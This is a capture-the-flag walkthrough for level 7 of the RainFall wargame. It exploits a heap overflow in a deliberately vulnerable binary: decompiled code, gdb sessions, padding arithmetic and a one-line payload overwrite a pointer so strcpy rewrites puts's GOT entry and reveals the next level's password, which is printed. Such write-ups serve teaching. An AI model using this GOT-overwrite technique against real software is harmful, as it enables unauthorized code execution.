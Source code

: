 # Level 07 Walkthrough

## Binary analysis

The binary allocates two structures and two string buffers on the heap. It uses `strcpy` to copy user input into the first buffer, then again into the second buffer, using pointers stored in the structures. The goal is to overflow the first buffer to overwrite the pointer in the second structure, so that the second `strcpy` writes to a controlled location (e.g., the GOT entry for `puts`).

```
080484f4    int32_t m()
08048520        return printf(format: "%s - %d\n", &c, time(nullptr))


08048521    int32_t main(int32_t argc, char** argv, char** envp)
08048531        int32_t* eax = malloc(bytes: 8)
0804853e        *eax = 1
08048556        eax[1] = malloc(bytes: 8)
08048560        int32_t* eax_4 = malloc(bytes: 8)
0804856d        *eax_4 = 2
08048585        eax_4[1] = malloc(bytes: 8)
080485a0        strcpy(eax[1], argv[1])
080485bd        strcpy(eax_4[1], argv[2])
080485eb        fgets(buf: &c, n: 0x44, fp: fopen(filename: "/home/user/level8/.pass", mode: u"r…"))
080485f7        puts(str: "~~")
08048602        return 0
```

With gdb, we find the addresses returned by `malloc` for the two structures and the two buffers:
```
- malloc for struct_1 (0x0804a018)
- malloc for buffer_1 (0x0804a028)
- malloc for struct_2 (0x0804a038)
- malloc for buffer_2 (0x0804a048)
```

```
(gdb) b *0x08048536
Breakpoint 1 at 0x8048536
(gdb) b *0x08048550
Breakpoint 2 at 0x8048550
(gdb) b *0x08048565
Breakpoint 3 at 0x8048565
(gdb) b *0x0804857f
Breakpoint 4 at 0x804857f
(gdb) r hello world
Starting program: /home/user/level7/level7 hello world

Breakpoint 1, 0x08048536 in main ()
(gdb) p/x $eax
$1 = 0x804a008
(gdb) c
Continuing.

Breakpoint 2, 0x08048550 in main ()
(gdb) p/x $eax
$2 = 0x804a018
(gdb) c
Continuing.

Breakpoint 3, 0x08048565 in main ()
(gdb) p/x $eax
$3 = 0x804a028
(gdb) c
Continuing.

Breakpoint 4, 0x0804857f in main ()
(gdb) p/x $eax
$4 = 0x804a038
```

```
level7@RainFall:~$ objdump -R ./level7 | grep puts
08049928 R_386_JUMP_SLOT   puts
```

## Exploitation

We overflow buffer_1 (starting at 0x0804a028) with 20 bytes to reach the pointer at 0x0804a03c. We overwrite this pointer with the address of the GOT entry for `puts` (0x08049928). Then, for the second argument, we provide the address of a function to execute (e.g., the address of a shell function or system call).

To determine the required padding, we need to understand the layout of the structures and buffers on the heap. Here, `buffer_1` starts at address `0x0804a028` and the pointer we want to overwrite in `struct_2` is located at `0x0804a03c`. The difference between these two addresses gives the number of bytes to fill in order to reach the target field:

0x0804a03c - 0x0804a028 = 0x14 = 20 bytes

So, we need 20 bytes of padding (for example, `"A"*20`) to fill `buffer_1` up to the pointer in `struct_2`.

Example payload:

```bash
./level7 "$(python3 -c 'print("A"*20 + "\x28\x99\x04\x08")')" "$(python3 -c 'print("\xf4\x84\x04\x08")')"
```

- 20 bytes of padding ("A"*20)
- Overwrite pointer with 0x08049928 (GOT entry for puts)
- Second argument: address to write (e.g., 0x080484f4)

## Commands used

```
./level7 "$(printf 'AAAAAAAAAAAAAAAAAAAA\x28\x99\x04\x08')" "$(printf '\xf4\x84\x04\x08')"
```

## Result

After running the exploit, we get the password for level8:

```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```